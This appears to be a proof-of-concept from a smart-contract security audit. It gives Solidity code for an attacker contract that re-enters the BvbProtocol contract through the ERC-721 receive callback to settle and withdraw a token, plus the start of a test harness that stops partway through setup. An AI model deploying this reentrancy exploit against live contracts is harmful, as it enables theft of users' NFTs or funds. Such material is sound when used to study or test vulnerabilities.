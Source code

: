 > contract BadBearsAttackContract {
>     bool private attack;
>     bool private receiveNFT;
>     address private owner;
>     address private target;
>     uint private tokenId;
>     bytes32 private contractId;
>     BvbProtocol.Order private order;
> 
>     constructor () {
>         owner = msg.sender;
>     }
> 
>     modifier onlyOwner {
>         require(msg.sender == owner);
>         _;
>     }
> 
>     function enableAttack(address _target, bytes32 _contractId, uint _tokenId, BvbProtocol.Order calldata _order) external onlyOwner {
>         attack = true;
>         target = _target;
>         contractId = _contractId;
>         tokenId = _tokenId;
>         order = _order;
>     }
> 
>     function enableReceive(bool _receive) external onlyOwner {
>         receiveNFT = _receive;
>     }
> 
>     function onERC721Received(
>         address ,
>         address ,
>         uint256 id,
>         bytes calldata
>     ) external returns (bytes4) {
>         require(receiveNFT);
>         if (attack && tokenId == id) {
>             attack = false;
>             BvbProtocol(target).settleContract(order, id);
>             BvbProtocol(target).withdrawToken(contractId, id);
>         }
> 
>         return this.onERC721Received.selector;
>     }
> }
> 
> contract ExploitWithdrawReentrancy is Base {
>     Victim internal victim;
>     BadBearsAttackContract internal attack;
> 
>     function setUp() public {
>         victim = new Victim();
>         attack = new BadBearsAttackContract();
> 
>         bvb.setAllowedAsset(address(weth), true);
>         bvb.setAllowedCollection(address(doodles), true);
> 
>         deal(address(weth), bull, 0xffffffff);
>         deal(address(weth), bear, 0xffffffff);
>         deal(address(weth), address(victim), 0xffffffff);
>         deal(address(weth), address(attack), 0xffffffff);
>         vm.prank(bull);
